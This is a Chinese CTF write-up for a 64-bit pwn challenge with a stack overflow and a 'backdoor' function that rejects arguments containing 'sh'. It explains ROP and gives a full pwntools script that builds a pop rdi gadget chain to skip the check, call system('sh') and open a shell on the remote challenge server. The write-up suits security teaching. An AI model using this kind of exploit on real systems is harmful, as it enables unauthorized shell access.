




### 上锁的后门

#### 题目描述

我家后门常打开，开放怀抱等你~~不是哥们，你家都装后门了，上锁是几个意思呢？都兄弟姊妹的，害羞啥——快让我康康！！！

#### 解题思路

checksec发现没开啥保护:

die发现是常规的64位程序，打开ida发现栈溢出漏洞：

然后发现后门函数backdoor：

与预热赛的pwn题目略有不同的是，这次的后门函数需要输入一个参数来执行，还要检测是否这个参数中存在sh，如果存在，则退出，否则可以使用system执行你的命令。

这个时候我们需要了解ROP，常规的栈溢出是直接将返回地址指向我们需要去向的位置，而ROP会先指向一些特定的地址（需要我们自己找），命令形如`pop reg, ret`，通过出栈对寄存器进行操作（意味着我们需要将参数放在栈上），然后由于`ret`指令从栈上读取一个地址并返回（和正常的栈溢出一样），我们接着在后面的位置填上想要跳转去的地址即可。

而通过以下部分我们知道，system的参数是通过rdi寄存器传递的，是一个地址值，因此我们设置rdi即可完成参数布置：

于是，自动化搜索的解题脚本如下：

```python
from pwn import *

context.arch = 'amd64'

# p = process("./chall")
p = remote("111.11.111.111",11451)

chall = ELF("./chall")
chall_rop = ROP("./chall")
backdoor_addr = chall.symbols['backdoor']
system_addr = chall.got['system'] # 对于第一次执行的函数不要使用这种操作，涉及复杂的got表、plt区域的知识。
call_system = 0x401274 # 既然后门口不让进，我直接不经过大门直接进去就行了，反正这个参数我已经设置好了。
print(hex(system_addr))
sh_addr = list(chall.search(b'sh'))[0]
pop_rdi_ret = chall_rop.find_gadget(['pop rdi','ret']).address

padding = 0x70+0x8

payload = flat([b'a'*padding, pop_rdi_ret, sh_addr, call_system])
log.info(p.recvuntil(b'Wanna praise it?'))
log.info(payload)
p.sendline(payload)
p.interactive()
```

#### 出题思路

略有难度，需要掌握一定的pwntools使用技巧，或者是一把梭的ROPgadget也行。

依旧是栈溢出漏洞，没开什么保护，但是新增加了参数的要求，就开始需要使用到rop，从具体的文件结构中找到可以利用的片段进行拼凑了。